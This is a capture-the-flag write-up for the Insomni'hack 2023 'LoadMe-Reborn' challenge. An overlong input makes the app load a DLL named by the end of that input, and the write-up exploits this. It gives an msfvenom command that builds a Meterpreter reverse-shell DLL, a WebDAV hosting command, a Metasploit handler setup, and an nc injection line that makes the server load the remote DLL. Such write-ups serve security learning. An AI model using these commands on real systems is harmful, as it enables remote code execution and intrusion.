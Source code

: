 # Insomni'hack - LoadMe-Reborn   
This repository is a solution for the flag LoadMe-Reborn for 2023's editions of insomni'hack.   
## The flag   
The flags begin with a simple instructions, that someone had developped an application to do a recipe with given components. They give us a nc command so we can connect to the app :
(I have forgot the command that they gave us, but it should be like this one)
```
nc 10.1.2.13 1234
```
Then, we have a beautiful cli's app that ask us for ingredients so they can cook, if you try to write some ingredients and hit enter, it'll tell us that the kitchen is closed. But it'll echo back the ingredients that we had typed before closing.
The simple trick here is to type list a ingredients so long that they will be an error. The important line in the error is that he has tried to load a DLL library but it was unable to load it, simply because it doesn'it exists ! It has tried to load a DLL with the end of the string that you had typed, so from here we can execute a DLL library of our choice, even our own !   
So we need to have a DLL that can do a reverse shell so we have acces directly to the server that is running the app. For that I have used msfvenom (.DLL in uppercase) : 
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=myIPAdress LPORT=4444 -f dll -o msf.DLL
```
And then we need a share that the server can use, the first thing that I had tried is smb share, but unfortunately, it has been blocked via a regex, so we need another technology, the next this I tried was webdav and it worked !
You need to host a webdav server, for that I have used wsgidav, it is a generic and extendable WebDAV server written in Python and based on WSGI. I have used this command, you need to launch it where you have generated your DLL library.
```
wsgidav --host=0.0.0.0 --port=80 --root=./ --auth=anonymous
```
Before loading your library on the server, you need to prepare for the reverse shell with those command :
```
./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost your_ip_address
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run
```
And the you can launch your DLL on the server with this command : 
```
echo '(stringlongenoughtodotheerror)//youripadress@80/msf' | nc 10.1.2.13 1234
```
It'll launch the nc command and the enter the string between the ' ' after the echo. Now in the shell where you have executed the reverse shell command, you have to the server and you can get the flag who is in the .txt file !
## Sources
msfvenom : 
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking
* https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html

wsgidav :
* https://wsgidav.readthedocs.io/en/latest/
